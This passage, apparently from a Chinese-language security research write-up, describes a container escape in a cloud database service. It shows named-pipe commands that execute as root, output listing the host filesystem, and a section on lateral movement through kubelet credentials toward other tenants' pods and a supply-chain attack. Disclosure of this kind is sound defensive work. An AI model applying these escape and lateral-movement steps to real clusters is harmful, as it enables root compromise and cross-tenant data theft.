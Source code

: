    
    # Code execution inside the new privileged container $: echo ‘id’ > /home/adbpgadmin/i_pipe; timeout 1 cat /home/adbpgadmin/o_pipe uid=0(root) gid=0(root) groups=10(wheel)

> 1\.
> 使用echo命令，输出’id’这个字符串，并用重定向符号（>）将它写入到/home/adbpgadmin/i_pipe这个文件中。如果这个文件不存在，就创建它；如果存在，就覆盖它的内容。  
> 2\. 使用管道符号（|），将echo命令的输出也传递给后面的命令，即timeout 1 cat /home/adbpgadmin/o_pipe。  
> 3\. 使用timeout命令，限制后面的命令在1秒内执行，否则终止它  
> 4\. 使用cat命令，读取/home/adbpgadmin/o_pipe这个文件的内容，并将它输出到标准输出（屏幕）上。

> 总之，这条命令的目的是在1秒内将’id’写入到i_pipe文件中，并将o_pipe文件中的内容显示出来。如果超过1秒，就停止执行。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # Accessing the host filesystem from the new privileged container$: echo ‘ls -alh /mnt’ > /home/adbpgadmin/i_pipe; timeout 2 cat /home/adbpgadmin/o_pipe total 88 dr-xr-xr-x   23 root     root        4.0K Nov  6 10:07 . drwxr-xr-x    1 root     root        4.0K Nov  7 15:54 .. drwxr-x---    4 root     root        4.0K Nov  6 10:07 .kube lrwxrwxrwx    1 root     root           7 Aug 29  2019 bin -> usr/bin dr-xr-xr-x    5 root     root        4.0K Nov  2 10:21 boot drwxr-xr-x   17 root     root        3.1K Nov  6 10:08 dev drwxr-xr-x   84 root     root        4.0K Nov  6 10:08 etc drwxr-xr-x    3 root     root        4.0K Nov  2 10:24 flash drwxr-xr-x    6 root     root        4.0K Nov  6 10:11 home drwxr-xr-x    2 root     root        4.0K Nov  2 10:24 lafite lrwxrwxrwx    1 root     root           7 Aug 29  2019 lib -> usr/lib lrwxrwxrwx    1 root     root           9 Aug 29  2019 lib64 -> usr/lib64 drwx------    2 root     root       16.0K Aug 29  2019 lost+found drwxr-xr-x    2 root     root        4.0K Dec  7  2018 media drwxr-xr-x    3 root     root        4.0K Nov  6 10:07 mnt drwxr-xr-x   11 root     root        4.0K Nov  6 10:07 opt dr-xr-xr-x  184 root     root           0 Nov  6 10:06 proc dr-xr-x---   10 root     root        4.0K Nov  6 10:07 root 

####

#### 从 K8s 横向移动到供应链攻击

通过访问 K8s API 服务器，我们利用节点的kubelet凭证来检查各种集群资源，包括机密、服务帐户和 pod。

在检查 pod 列表时，我们发现属于同一集群中其他租户的 pod。这表明阿里云为多租户设计了集群，这意味着我们有可能获得对这些 pod 的跨租户访问。  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    